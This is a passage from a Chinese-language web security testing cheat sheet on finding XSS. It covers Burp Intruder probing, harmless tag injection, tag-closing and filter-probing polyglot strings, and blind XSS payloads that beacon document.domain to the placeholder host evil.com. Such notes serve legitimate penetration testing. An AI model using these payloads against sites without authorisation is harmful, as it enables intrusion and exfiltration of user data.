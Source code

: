 - 测试输入框
- 测试 URL 
- 在 Burp Suite 的 Intruder 模块中标记请求包中所有可能触发 XSS 的位置, 然后使用 Sniper attack 模式注入一个随机字符串, 若在响应包中匹配到这个随机字符串则可能存在 XSS

### 2.1.2. 无害化测试

> 在 Burp 中测试 GET 请求时需要对空格进行 URL 编码, 若成功解析则响应中的标签是彩色的

使用无危害标签测试是否可以解析, 若可以解析则存在 HTML Injection, 可进一步测试 XSS

```
<s>1
%3Cs%3E1
'"><s>1
%27%22%3E%3Cs%3E1
'"><s>1#//--+
%27%22%3E%3Cs%3E1%23%2F%2F--%2B
'"></xmp></title></style></iframe></script></noembed></noscript></textarea><s>1#//--+
%27%22%3E%3C%2Fxmp%3E%3C%2Ftitle%3E%3C%2Fstyle%3E%3C%2Fiframe%3E%3C%2Fscript%3E%3C%2Fnoembed%3E%3C%2Fnoscript%3E%3C%2Ftextarea%3E%3Cs%3E1%23%2F%2F--%2B
```

某些标签的内容无法解析,需要闭合

```
</xmp>
</title>
</style>
</iframe>
</script>
</noembed>
</noscript>
</textarea>
```

提交这个字符串可以判断过滤了哪些字符

```
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+console.log(1);//'>
```

使用 OOB 测试 Blind XSS

```
<img src=x onerror="new Image().src='https://evil.com?c='+document.domain;">
```

```
<script>new Image().src="https://evil.com?c="+document.domain;</script>
```

```
<script>navigator.sendBeacon("https://evil.com", document.domain);</script>
```

## 3. 文件解析类
